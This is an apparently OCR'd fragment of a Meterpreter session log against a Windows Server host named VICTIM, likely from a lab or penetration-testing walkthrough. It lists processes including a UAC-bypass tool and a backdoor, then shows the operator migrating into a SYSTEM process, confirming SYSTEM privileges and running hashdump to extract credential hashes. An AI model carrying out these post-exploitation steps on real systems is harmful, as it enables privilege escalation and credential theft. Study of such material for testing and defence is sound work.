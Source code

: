 ```
 1148  676   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1176  676   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1228  676   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1248  676   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1304  676   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1368  676   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1624  748   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 1676  2036  Akagi64.exe           x64   1        VICTIM\admin                  C:\Temp\Akagi64.exe
 1832  1676  PkgMgr.exe            x64   1        VICTIM\admin                  C:\Windows\System32\PkgMgr.exe
 1964  2760  hfs.exe               x86   1        VICTIM\admin                  C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hfs.exe
 2036  2760  cmd.exe               x64   1        VICTIM\admin                  C:\Windows\System32\cmd.exe
 2324  2008  backdoor.exe          x86   1        VICTIM\admin                  C:\Temp\backdoor.exe
 2360  676   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 2488  2036  conhost.exe           x64   1        VICTIM\admin                  C:\Windows\System32\conhost.exe
 2580  2060  cmd.exe               x86   1        VICTIM\admin                  C:\Windows\SysWOW64\cmd.exe
 2712  908   taskhostex.exe        x64   1        VICTIM\admin                  C:\Windows\System32\taskhostex.exe
 2760  2752  explorer.exe          x64   1        VICTIM\admin                  C:\Windows\explorer.exe

meterpreter > migrate 684
[*] Migrating from 2324 to 684...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > get uid
[-] Unknown command: get.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
```

